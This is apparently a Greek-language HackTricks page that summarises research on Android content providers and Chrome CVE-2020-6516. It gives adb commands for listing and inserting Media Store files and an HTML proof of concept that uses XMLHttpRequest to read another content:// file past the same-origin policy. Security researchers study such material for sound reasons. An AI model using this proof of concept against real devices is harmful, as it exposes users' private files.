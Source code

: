 <details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>


**Αυτό είναι ένα σύνοψη του άρθρου [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Καταχώρηση Αρχείων στο Media Store
Για να καταχωρήσετε αρχεία που διαχειρίζεται το Media Store, μπορεί να χρησιμοποιηθεί η παρακάτω εντολή:
```bash
$ content query --uri content://media/external/file
```
Για ένα πιο φιλικό προς τον χρήστη αποτέλεσμα, εμφανίζονται μόνο ο αναγνωριστικός αριθμός και η διαδρομή του κάθε ευρετηριασμένου αρχείου:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
Οι πάροχοι περιεχομένου είναι απομονωμένοι στο δικό τους ιδιωτικό namespace. Η πρόσβαση σε έναν πάροχο απαιτεί το συγκεκριμένο `content://` URI. Πληροφορίες σχετικά με τις διαδρομές για την πρόσβαση σε έναν πάροχο μπορούν να ανακτηθούν από τα αρχεία manifest των εφαρμογών ή από τον πηγαίο κώδικα του πλαισίου εφαρμογών Android.

### Πρόσβαση του Chrome σε Πάροχους Περιεχομένου
Ο Chrome στο Android μπορεί να έχει πρόσβαση σε πάροχους περιεχομένου μέσω του σχήματος `content://`, επιτρέποντάς του να έχει πρόσβαση σε πόρους όπως φωτογραφίες ή έγγραφα που εξάγονται από εφαρμογές τρίτων. Για να επιδείξουμε αυτό, μπορεί να εισαχθεί ένα αρχείο στο Media Store και στη συνέχεια να έχει πρόσβαση μέσω του Chrome:

Εισαγωγή μιας προσαρμοσμένης καταχώρησης στο Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
Ανακαλύψτε τον αναγνωριστικό του νεοεισαχθέντος αρχείου:
```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
Το αρχείο μπορεί να προβληθεί στο Chrome χρησιμοποιώντας ένα URL που κατασκευάζεται με τον αναγνωριστικό του αρχείου.

Για παράδειγμα, για να εμφανιστούν οι αρχείο που σχετίζονται με μια συγκεκριμένη εφαρμογή:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
### Chrome CVE-2020-6516: Παράκαμψη του Same-Origin-Policy

Το _Same Origin Policy_ (SOP) είναι ένα πρωτόκολλο ασφαλείας στους περιηγητές που περιορίζει τις ιστοσελίδες να αλληλεπιδρούν με πόρους από διαφορετικές προέλευσεις, εκτός αν επιτρέπεται ρητά από μια πολιτική Cross-Origin-Resource-Sharing (CORS). Αυτή η πολιτική στοχεύει στην αποτροπή διαρροών πληροφοριών και επιθέσεων cross-site request forgery. Ο Chrome θεωρεί το `content://` ως ένα τοπικό σχήμα, υπονοώντας αυστηρότερους κανόνες SOP, όπου κάθε URL με τοπικό σχήμα θεωρείται ως ξεχωριστή προέλευση.

Ωστόσο, η CVE-2020-6516 ήταν μια ευπάθεια στον Chrome που επέτρεπε την παράκαμψη των κανόνων SOP για πόρους που φορτώνονται μέσω ενός URL `content://`. Στην πράξη, ο κώδικας JavaScript από ένα URL `content://` μπορούσε να έχει πρόσβαση σε άλλους πόρους που φορτώνονταν μέσω URL `content://`, πράγμα που αποτελούσε σημαντικό πρόβλημα ασφαλείας, ειδικά σε συσκευές Android που εκτελούν εκδόσεις προηγούμενες της Android 10, όπου δεν είχε εφαρμοστεί η scoped storage.

Το παρακάτω παράδειγμα επίδειξης αποδεικνύει αυτήν την ευπάθεια, όπου ένα έγγραφο HTML, μετά τη μεταφόρτωσή του στον φάκελο **/sdcard** και την προσθήκη του στο Media Store, χρησιμοποιεί το `XMLHttpRequest` στον κώδικα JavaScript του για να έχει πρόσβαση και να εμφανίσει το περιεχόμενο ενός άλλου αρχείου στο Media Store, παρακάμπτοντας τους κανόνες SOP. 

Παράδειγμα HTML επίδειξης:
```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

